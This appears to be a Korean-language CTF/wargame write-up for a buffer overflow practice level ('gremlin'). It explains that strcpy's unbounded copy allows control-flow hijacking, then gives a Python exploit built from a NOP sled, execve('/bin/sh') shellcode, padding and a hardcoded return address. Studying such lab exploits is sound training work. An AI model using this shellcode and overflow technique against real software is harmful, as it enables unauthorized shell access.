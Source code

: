 strcpy함수가 String을 복사할 때  복사하는 크기를 정하지 않아 생기는 BoF취약점을 이용하여 프로그램의 흐름을 조작할 수 있었다. strcpy함수처럼 크기 지정없이 값을 복사하는 메소드들은 BoF 취약점에 노출되어 있다.

-----



```python
import os
import struct

append = lambda x: payload + x
p32 = lambda x: struct.pack("<I", x)

target = "/home/gate/gremlin"

shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"

buffer_addr = 0xbffffcf0

payload = "\x90"*100
payload = append(shellcode)
payload = append("\x90"*(260-100-24))
payload = append(p32(buffer_addr))

pid = os.fork()

if pid == 0:
        os.execv(target, (target, payload))
else:
        os.waitpid(pid, 0)
```



-----